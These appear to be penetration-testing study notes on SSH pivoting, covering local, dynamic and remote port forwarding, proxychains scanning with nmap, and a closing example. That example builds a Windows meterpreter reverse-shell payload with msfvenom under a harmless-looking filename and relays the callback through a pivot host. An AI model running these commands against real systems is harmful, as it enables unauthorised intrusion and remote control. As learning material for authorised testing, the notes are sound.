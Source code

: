 ### Local Port Forwarding

This setup creates a new port on your local machine (`[local_port]`), which forwards traffic to a specific destination on the remote machine (`[target_ip]:[target_port]`). If a service is accessible remotely on a particular IP and port, local port forwarding allows you to access it through your machine's port.

```bash
ssh {-N} -L [local_port]:[target_ip]:[target_port] [user]@[target]
```

Examples:

Opens 3389 locally. Connected to 3389 locally will forward traffic to 10.1.1.10 on port 3389:

```bash
ssh {-N} -L 3389:10.1.1.10:3389 [user]@[target]
```

```bash
 ssh {-N} -L [local_port]:127.0.0.1:[target_port] [user]@[target]
```

#### Port Forwarding Multiple Ports

```bash
ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```

Example:

```bash
ssh -L [local_port]:[target_ip]:[target_port] -L [local_port]:[target_ip]:[target_port] [user]@[target]
```

### Dynamic Port Forwarding

Useful when we don't know what port we need to connect to. To be used with `proxychains` or a `socks4/5` connection in a web browser. `socks4` only supports `TCP` whereas `sock5` supports both `TCP` and `UDP`.

```bash
sudo ssh {-N} -D 127.0.0.1:1080 [user]@[target]
```

Proxychains Config:

```bash
socks5	127.0.0.1 1080
```

Then use proxychains with `nmap` to scan a target:

```bash
proxychains -q nmap -sT -Pn x.x.x.x
```

For web browsing, configure a suitable proxy:

![[Pasted image 20250203111426.png]]

Can also use other applications with proxychains:

```bash
proxychains -q msfconsole -q
proxychains xfreerdp
```
### Remote Port Forwarding

This setup allows the attacker's machine to receive connections on a specified port and forward traffic through an intermediary **pivot point** to reach a service running locally on the target machine. Since the target has no direct route to the attacker, a reverse shell or direct connection would fail. However, the pivot point, which has communication with both the attacker and the target, can act as a bridge.

![[Pasted image 20250203121025.png]]

Example Using Metasploit to obtain a shell on the Target:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https lhost=<pivot_point> -f exe -o backupscript.exe LPORT=<port_to_listen_to_on_pivot_point>
```

Transfer exe to Target.

From Attacker:

```bash
ssh -R <PivotPointIP>:<port_to_listen_to_on_pivot_point>:0.0.0.0:<attacker_listen_port> ubuntu@<PivotPointIP> -vN
```

